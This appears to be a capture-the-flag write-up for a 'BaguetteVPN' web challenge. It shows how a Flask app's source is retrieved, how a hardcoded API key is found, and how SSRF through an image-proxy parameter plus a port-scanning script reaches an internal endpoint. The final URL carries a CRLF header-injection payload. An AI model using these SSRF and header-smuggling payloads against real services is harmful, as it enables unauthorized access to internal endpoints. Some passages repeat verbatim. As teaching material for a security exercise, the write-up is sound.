

This challenge is composed of two parts, let's see what we can find when reaching the web page. It does not contain much contents on the web page, let's see what we can find on the source code. We see that in the command, there are 2 paths, let's take a look at /api/debug. In the field file, we see that there is a python file called "baguettevpn_server_app_v0.py". Let's find out what is the python code behind this file.
wget challenges2.france-cybersecurity-challenge.fr:5002/baguettevpn_server_app_v0.py
We've got the flag of the first part, let's continue with the second part.
The subject inform us that a port scan from 0 to 2000 might be necessary.
The python file we have downloaded has some interesting information, it tells us where the second flag is located.
@app.route("/api/secret")
def admin():
if request.remote_addr == '127.0.0.1':
if request.headers.get('X-API-KEY') == 'b99cc420eb25205168e83190bae48a12':
return jsonify({"secret": os.getenv('FLAG')})
return Response('Interdit: mauvaise clé d\'API', status=403)
return Response('Interdit: mauvaise adresse IP', status=403)
There is a path on the website that returns the flag if the remote address correspond to the localhost and if the API key is equal to b99cc420eb25205168e83190bae48a12. Therefore, we just have to spoof our ip address as 127.0.0.1 and add the correct X-API-KEY to the GET request to retrieve the flag. Let's open Burp and use the pluggin Repeater to forge our GET request.

HTTP request header x-forwarded-for can be used to spoof a remote ip address. By adding x-forwarded-for = 127.0.0.1, we might mislead the web server regarding the remote ip address.
However, it does not seem to work. Let's see if we can find something else on the python file.
def admin():
if request.remote_addr == '127.0.0.1':
if request.headers.get('X-API-KEY') == 'b99cc420eb25205168e83190bae48a12':
return jsonify({"secret": os.getenv('FLAG')})
return Response('Interdit: mauvaise clé d\'API', status=403)
return Response('Interdit: mauvaise adresse IP', status=403)
@app.route("/api/image")
def image():
filename = request.args.get("fn")
if filename:
http = urllib3.PoolManager()
return http.request('GET', 'http://baguette-vpn-cdn' + filename).data
else:
return Response('Paramètre manquant', status=400)
This code returns a GET request. We might use that to bypass local IP. Since that in this part of the code, the web application will make a HTTP request, I'm thinking about a SSFR attack (Server-side request forgery). It allows an attacker to induce the web application to make a HTTP request toward a domain that the attacker has chosen. In our case, we want the server to redirect us towards 127.0.0.1/api/secret. So that, the request will come locally and the remote address IP will be 127.0.0.1. def image():
filename = request.args.get("fn")
if filename:
http = urllib3.PoolManager()
return http.request('GET', 'http://baguette-vpn-cdn' + filename).data
else:
return Response('Paramètre manquant', status=400)
In our case, if we look at the http.request function, it concatenate the beginning of the URL with filename. The variable filename can be controlled by the user since it takes the argument "fn".
http://baguette-vpn-cdn + [USER_INPUT]
In this case, we need to find a domain that in pointing to 127.0.0.1. And the domain that might have a DNS record (A) is .localhost.
http://baguette-vpn-cdn.localhost
The subject also tell us that it might be necessary to scan the port below 2000. Then let's create a python script that will scan the ports from 1 to 2000 and see if we can get a HTTP response equal to 200, which means that the request is successful.
import requests
for i in range(1, 2000):
print(i)
r = requests.get('http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=.localhost:'+str(i)+'/api/secret')
if(r.status_code == 200):
print("Port : "+str(i))
print(r.text)
exit()
Our program managed to find a HTTP response equal to 200 with the port 1337. However, we didn't add the correct X-API-KEY to retrieve the flag.
for i in range(1, 2000):
print(i)
r = requests.get('http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=.localhost:'+str(i)+'/api/secret')
if(r.status_code == 200):
print("Port : "+str(i))
print(r.text)
exit()
 \r\n or %0D%0A is called Carriage Return Line Feed (CRLF). \r\n indicate an end of line and \r\n\r\n indicates a end of request. Let's add the HTTP header in the URL using those characters.
\r\n or %0D%0A is called Carriage Return Line Feed (CRLF). \r\n indicate an end of line and \r\n\r\n indicates a end of request. Let's add the HTTP header in the URL using those characters.
http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=.localhost:1337/api/secret+HTTP/1.1%0D%0AX-API-KEY:+b99cc420eb25205168e83190bae48a12%0D%0A%0D%0A